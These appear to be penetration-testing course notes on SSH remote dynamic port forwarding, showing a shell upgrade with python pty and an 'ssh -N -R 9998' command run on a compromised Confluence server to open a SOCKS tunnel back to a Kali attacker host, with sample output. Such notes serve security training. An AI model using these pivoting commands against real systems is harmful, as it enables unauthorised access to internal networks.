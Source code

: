 The remote dynamic port forwarding command is relatively simple, although (slightly confusingly) it uses the same **-R** option as classic remote port forwarding
+ The difference is that when we want to create a remote dynamic port forward, we pass only one socket: the socket we want to listen on the SSH server
+ We don't even need to specify an IP address; if we just pass a port, it will be bound to the loopback interface of the SSH server by default

To bind the SOCKS proxy to port 9998 on the loopback interface of our Kali machine, we simply specify `**-R 9998`** to the SSH command we run on `CONFLUENCE01`
+ We'll also pass the **-N** flag to prevent a shell from being opened
+ Will first make sure there is a tty session:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
+ Usage:
```
ssh -N -R <PORT> <USERNAME>@<SERVER-IP>
```
+ Just the port is set as the server (the attacker) will set that port as its SOCKS proxy, the server will then send that ports traffic to the client (The machine doing this ssh command), which will then relay the traffic.
+ Example usage and output:
```
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'

confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 9998 kali@192.168.118.4
<n/confluence/bin$ ssh -N -R 9998 kali@192.168.118.4   
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.118.4 (192.168.118.4)' can't be established.
ECDSA key fingerprint is SHA256:OaapT7zLp99RmHhoXfbV6JX/IsIh7HjVZyfBfElMFn0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.118.4's password:
```

Back on our Kali machine, we can check that port 9998 is bound by using **ss**:
+ Usage:
```
sudo ss -ntplu
```
+ Example output:
```
Netid State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port Process
tcp   LISTEN  0       128          127.0.0.1:9998        0.0.0.0:*     users:(("sshd",pid=939038,fd=9))
tcp   LISTEN  0       128            0.0.0.0:22          0.0.0.0:*     users:(("sshd",pid=181432,fd=3))
tcp   LISTEN  0       128              [::1]:9998           [::]:*     users:(("sshd",pid=939038,fd=7))
tcp   LISTEN  0       128               [::]:22             [::]:*     users:(("sshd",pid=181432,fd=4))
```
